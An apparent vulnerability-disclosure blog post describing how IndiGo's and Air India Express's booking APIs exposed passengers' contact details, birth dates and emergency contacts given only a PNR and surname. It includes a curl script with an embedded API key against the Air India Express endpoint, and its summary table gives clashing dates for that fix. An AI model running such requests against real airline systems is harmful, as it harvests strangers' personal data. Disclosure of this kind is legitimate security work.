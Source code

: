 ```yaml
---
title: Indigo Vulnerability 2022-2024 and Air india vulnerability 2025
date:
  created: 2025-08-13
  updated: 2025-08-13
---
```


Interglobe Indigo's manage booking portal(<https://www.goindigo.in/edit-booking.html>) and Air India Express (<https://www.airindiaexpress.com/manage>)
leaked a passenger's number, email, date of birth
address and emergency contact information by a PNR and name of a passenger. Even though the content is masked in the UI,
the network activity shows the full data.

This was originally reported to Indigo in 2022 but was not fixed.

- Tweet by [@_sirius93](https://twitter.com/_sirius93_) exposing this vulnerability in 2022 <https://twitter.com/_sirius93_/status/1508423479594733568>
- Tweet by Indigo denying this and not fixing the issue <https://twitter.com/IndiGo6E/status/1508748146717130758>
- News covering this incident

      - <https://economictimes.indiatimes.com/magazines/panache/how-indigo-passenger-hacked-into-carriers-website-to-track-his-missing-luggage-airline-responds/articleshow/90567643.cms?from=mdr>
      - <https://www.bbc.com/news/world-asia-india-60937480>
      - <https://www.ndtv.com/offbeat/indigos-response-after-techie-hacks-website-to-find-lost-luggage-2853781>
      - <https://www.livemint.com/news/india/passenger-hacks-indigo-s-website-to-find-lost-bag-airline-responds-11648690601840.html>

After reporting via email to Indigo in July 2024, an incomplete fix was implemented.

After reporting to CERT in November 2024, Indigo implemented a complete fix.

Air India warns its customers to not display PNR online in its tweets and asks them to share it via DMs.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [Indigo itinerary](#1-itinerary)  | 28 March 2022, 22 July 2024, 23 November 2024 | December 2024 | 1009, 162, 39 | 64401624 |
| 2  | [Air India RetrieveData](#2-retrievedata)  | 2 August 2025 | September 2024 | 30 | 25019125 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. itinerary

```text
https://api-prod-itinerary-skyplus6e.goindigo.in/v1/itinerary
```

<details>
<summary> Sample response</summary>
```json linenums="1" hl_lines="750-820"
---8<--- "docs/vuln/posts/content_indigo/indigo_vuln_1.json"
```
</details>

### 2. RetrieveData

```bash title="sample_script.sh" linenums="1"
time=$(date '+%F_%T')
curl 'https://api.airindiaexpress.com/b2c-CheckIn/v2/mmb/retrieve/byRecordLocator' \
  -X POST \
  -H 'Ocp-Apim-Subscription-Key: fe65ec9eec2445d9802be1d6c0295158' \
  --data-raw '{"addtnlDetail":"$$$$$$$$$$","recordLocator":"$$$$$$$$$$","sessionType":"WebAnonUser"}' \
  -o bookings_$time.json
```

<details>
<summary> Sample response</summary>
```json linenums="1" hl_lines="119-190"
---8<--- "docs/vuln/posts/content_indigo/air_india_vuln_1.json"
```
</details>
